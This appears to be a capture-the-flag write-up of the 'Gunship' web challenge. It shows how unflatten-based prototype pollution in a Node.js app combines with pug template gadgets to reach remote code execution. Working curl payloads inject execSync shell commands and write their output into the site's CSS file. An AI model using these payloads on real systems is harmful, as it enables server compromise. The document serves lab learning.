


Gunship
Once again, a challenge where the website accepts user input. You have to introduce your favorite artist's name. Right at the start, it's possible to see that you just can't introduce any name:
Unless you introduce the name of one of the two artists that are part of the
aforementioned band called Gunship:

If you download the files, you can see the logic related to this in
routes/index.js, where there are three valid names: Haigh, Westaway and Gingell.
I don't even know where Gingell comes from:
router.post('/api/submit', (req, res) => { const { artist } = unflatten(req.body); if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) { return res.json({ 'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' }) }); } else { return res.json({ 'response': 'Please provide us with the full name of an existing member.' }); } });
Right from the get go, this web app uses a template engine called pugjs, but
doesn't seem really that exploitable, since it's just HTML. What's interesting
here is unflatten, which can be exploited because of Prototype Pollution. That
means I can just manipulate the json data sent in the POST request and get
results. Here is an example of a simple request when submitting the name:
curl 'http://94.237.50.242:46641/api/submit'\ -X POST \ -H 'Content-Type: application/json' \ --data-raw '{"artist.name":"Gingell"}'
{"response":"<span>Hello guest, thank you for letting us know!</span>"}
If I add "___proto___.json spaces": " " to the json data that is sent, we can see
that the setting was applied, by looking at the spaces that were added to the
json result:
curl 'http://94.237.50.242:46641/api/submit'\ -X POST \ -H 'Content-Type: application/json' \ --data-raw '{"artist.name":"Gingell", "__proto__.json spaces": " "}'
{
"response": "<span>Hello guest, thank you for letting us know!</span>"
}
The pugjs GitHub repository has an interesting issue with some useful gadgets
for Remote Code Execution! Since they are all being done on
Object.prototype.xxx, that means we can manipulate the json that is being sent
to do the same. Let's start with executing a ls -la command to show the contents
of the directory and, since we know the output won't be in the request result,
let's just redirect it to the css file of the web application:
curl 'http://94.237.50.242:46641/api/submit'\ -X POST \ -H 'Content-Type: application/json' \ --data-raw '{"artist.name":"Gingell", "__proto__.block.type": "Text", "__proto__.block.line": "process.mainModule.require(\"child_process\").execSync(\"ls -la >> static/css/main.css\")" }'
And the results are in:

Since we appended to the css file, it goes to the end of it. As the image shows,
we got the result of the ls -la command and we can see the flag is in the same
directory. Therefore to get the flag, we just execute cat flag and redirect it
to the same file!